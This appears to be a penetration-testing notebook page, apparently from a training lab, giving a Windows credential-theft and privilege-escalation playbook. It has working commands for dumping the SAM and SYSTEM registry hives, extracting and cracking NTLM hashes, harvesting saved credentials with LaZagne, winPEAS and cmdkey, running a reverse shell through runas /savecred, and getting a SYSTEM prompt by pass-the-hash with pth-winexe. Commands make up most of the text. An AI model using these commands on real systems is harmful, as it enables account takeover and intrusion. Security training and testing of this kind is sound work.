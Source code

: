 #### Reg save

```command prompt - target
reg save HKLM\SAM c:\SAM
```

```command prompt - target
reg save HKLM\System c:\System
```

[[4._File Transfers]]

```bash - kali
samdump2 -o hashes System SAM
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NTLM]]


#### Lazagne

```
lazagne.exe all
```

#### Saved creds
1. Use winPEAS to check for saved credentials:

```command prompt - windows
.\winPEASx64.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.

3. We can verify this manually using the following command:

```command prompt - windows
cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```command prompt - windows
C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

#### SAM
1. Backups of the SAM and SYSTEM files can be found in ===C:\Windows\Repair== and are readable by our user.

2. Copy the files back to Kali:

[[4._File Transfers]]

3. Download the latest version of the creddump suite:

```bash - kali
git clone https://github.com/Neohapsis/creddump7.git
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```bash - kali
python2 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```bash - kali
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```


#### Pass the Hash
1. Extract the admin hash from the SAM in the previous step.

2. Use the hash with pth-winexe to spawn a command prompt (empty LM hash):

```bash - kali
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```bash - kali
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```
